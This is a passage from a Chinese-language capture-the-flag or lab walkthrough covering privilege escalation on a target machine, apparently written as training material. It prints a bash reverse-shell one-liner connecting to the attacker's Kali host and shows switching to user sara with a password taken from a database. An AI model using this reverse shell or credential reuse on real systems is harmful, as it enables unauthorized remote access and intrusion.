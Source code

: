 ![](./pic/33.jpg)

测试`gcc`和`cc`有无安装，查看版本，但是并没有安装，所以这个编译的话可能不行

```shell
gcc -v
cc -v
```

这里是基本的信息，还没有上传脚本进行检测

# 提权

这里需要注意，现在所作的一切操作，都是在通过代理服务器进行的，若想要稳固连接，需要一个反向`shell`，也就是靶机主动连接`kali`，这样就不会被防火墙拦截

```shell
#在靶机上执行
bash -i >& /dev/tcp/192.168.10.6/9999 0>&1
#当然还有其他的，如nc，脚本语言等
```

不过这种方式在代理断掉的时候，就会断开，我尝试写一个脚本，然后使其一直执行，但是不知道为什么，直接写入文件的形式不行，尝试下载也不行，并且还是在`/tmp`目录下，一直提示写入失败

`-bash: echo: write error: No space left on device`

在执行了`df -h`命令发现，磁盘都满了，啧，这就难搞了。

反正大概知道思路就可以了，这里就是通过脚本的形式来防止连接断开

## 提权至sara

尝试使用`su`切换到`sara`，密码为上面的数据库中的密码`ihatethisjob`

当然测试过另一个，只有这个可以，不过这里切换发现，还是有限制

![](./pic/34.jpg)

那么和之前一样，在切换的时候执行一个命令，查看其目录

```shell
su sara -c "ls -la /home/sara"
```

![](./pic/35.jpg)
